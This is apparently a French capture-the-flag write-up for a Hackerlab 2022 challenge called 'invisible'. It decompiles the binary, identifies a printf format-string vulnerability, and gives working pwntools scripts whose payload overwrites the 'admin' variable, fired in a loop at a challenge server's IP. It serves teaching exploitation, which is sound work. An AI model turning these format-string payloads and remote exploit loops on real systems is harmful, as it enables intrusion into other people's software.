 on regarde le type de fichier `file invisible` (c'est du binaire)
`strings invisble` ne donne rien.
`chmod +x invsible` pour rendre le fichier éxecutable.

**déssemblage sur https://dogbolt.org**

fonction main et print_flag:

``` C
//----- (0000000000401186) ----------------------------------------------------
int print_flag()
{
  return system("cat /home/ecowas/flag");
}

//----- (000000000040119C) ----------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char s[140]; // [rsp+10h] [rbp-90h] BYREF
  int v6; // [rsp+9Ch] [rbp-4h]

  v3 = time(0LL);
  srand(v3);
  v6 = rand() % 50;
  memset(s, 0, 0x80uLL);
  fgets(s, 128, stdin);
  printf(s);
  if ( v6 == 27 )
  {
    if ( admin == 200 )
      print_flag();
  }
  else
  {
    printf("Try again");
  }
  return 0;
}
```

donc, pour le défi, quelques faits que nous pouvons lire à partir du binaire :
- pas de PIE, donc toutes les adresses sont fixes, sympa
- la variable admin est à une adresse constante, vous pouvez trouver cela facilement avec un désassembleur ou un décompilateur
- le rng est amorcé avec srand(time(NULL)), ce qui signifie l'heure actuelle en secondes
- cela signifie que chaque seconde vous obtenez une nouvelle valeur aléatoire
- la valeur aléatoire v6 % 50 doit être 27, donc environ toutes les 50 tentatives, elle sera correcte sans que nous fassions quoi que ce soit.
- donc la seule chose que nous devons faire est d'écraser `admin` à `200`.

- *Nous avons trouvé quelque chose d'intéressant: `print(s)` c'est à dire que notre input sera affiché d'abord.* Voyons celà   
<img title="test1" src="https://github.com/AFR0HAT/CTF/blob/main/Hackerlab2k22/screenshots/test1.png">
Sound interesting ;-) .
Testons le **Format string vulnerability**  [article:](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b):
<img title="formatstring" src="https://github.com/AFR0HAT/CTF/blob/main/Hackerlab2k22/screenshots/formatstring.png">

Gooooddddd !!! nous avons des addresses du stack.

- **Allons plus loin**: Où est stocké notre input?
```python
from pwn import *


for i in range(10):
    p = process(["./invisible"])
    p.sendline(f"AAAAAAAA %{i}$lx") # i représente l'argument
    print(i, p.readline(1024))
    p.close()
    print("\n")
```

l'argument 8 afficher notre input en  `hex`:
<img title="arg8" src="https://github.com/AFR0HAT/CTF/blob/main/Hackerlab2k22/screenshots/arg8.png">


Maintenant on cherche l'adresse de la fonction `admin`:
<img title="adminfunc.png" src="https://github.com/AFR0HAT/CTF/blob/main/Hackerlab2k22/screenshots/adminfunc.png">


Cherchons notre padding entre le format string et l'addresse:
addresse `%8$n`  commence à l'octet 0
addresse `%9$n` à l'octet 8
addresse `%10$n` à l'octet 16

**Exploitation**
shellcode= `%200c%10$nXXXXXX\x5c\x40\x40\x00\x00\x00\x00\x00`
%200c%10$n : on écrit 200 dans l'argument 10
XXXXXX: ne signifie rien, on peut le remplacer par des espaces ou null bytes
\x5c\x40\x40\x00\x00\x00\x00\x00 : l'adresse de l'admin en `Little endian`

exploit 1: Simple mais il faut taper entrée à chaque fois pour avancer
```python
from pwn import *

for i in range(51):
    r = remote("51.38.37.81", 1234)
    r.sendline(b"%200c%10$nXXXXXX\x5c\x40\x40\x00\x00\x00\x00\x00")
    r.interactive()
```

exploit 2: automatisé
```python
from pwn import *
import sys
import time


context.log_level = "error"

binary = ELF("./invisible")
admin_addr = binary.symbols["admin"]
print(f"&admin = {hex(admin_addr)}")

for i in range(100):
    r =remote("51.38.37.81", 1234) 

    fmtstr = b"%200c%11$n%25$016lx\0\0\0\0\0"
    assert len(fmtstr) == 24
    fmtstr += p64(admin_addr)

    r.sendline(fmtstr)

    data = r.readall()
    data2 = data[200:] # remove garbage
    try:
        rand = int(data2[0:8].decode(), 16)
        text = data2[16:].decode()
        print(f"i = {i}, rand = {rand}, text = {text}")

        if rand == 27:
            print("this should have been the flag, maybe admin isn't correctly overwritten?")
            break
    except Exception:
        print(data) # print whole line, probably flag
        break

    time.sleep(1)
```

THAT'S IT !!!!!!!!!!!!!!!!!!!!!!!!!!!! ;-)
